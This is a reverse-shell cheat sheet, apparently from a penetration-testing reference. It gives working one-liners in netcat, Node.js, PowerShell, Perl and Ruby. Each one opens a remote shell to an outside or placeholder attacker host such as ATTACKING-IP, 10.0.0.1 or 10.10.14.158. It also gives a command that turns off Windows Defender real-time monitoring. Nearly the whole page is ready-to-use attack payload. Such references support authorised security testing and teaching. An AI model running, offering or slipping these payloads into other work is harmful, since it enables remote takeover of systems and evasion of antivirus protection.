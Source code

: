 ***

## **Netcat Reverse Shells**

<pre><code>nc 192.168.1.101 5555 -e /bin/bash
<strong>
</strong><strong>rm -f /tmp/p; mknod /tmp/p p &#x26;&#x26; nc ATTACKING-IP 4444 0/tmp/p
</strong></code></pre>

***

## **Node.js Reverse Shells**

```
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');

JSShell: https://github.com/shelld3v/JSshell
```

***

## **Powershell Payloads**

```
Reverse Shell: powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Disable real time monitoring in Windows Defender: Set-MpPreference -DisableRealtimeMonitoring $true
```

***

## **Perl Reverse Shells**

```
perl -e 'exec "/bin/sh";'

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***

## **Ruby Reverse Shells**

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
